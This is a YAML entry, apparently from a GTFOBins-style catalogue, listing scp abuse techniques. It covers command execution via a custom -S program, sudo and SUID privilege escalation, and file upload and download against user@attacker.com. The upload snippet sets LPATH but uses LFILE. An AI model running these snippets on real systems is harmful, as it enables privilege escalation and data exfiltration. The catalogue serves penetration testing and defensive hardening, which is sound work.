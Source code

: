 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        scp -S $TF x y:
  upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=file_to_save
        scp $RPATH $LFILE
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        sudo scp -S $TF x y:
  suid-limited:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        ./scp -S $TF a b:
---
```


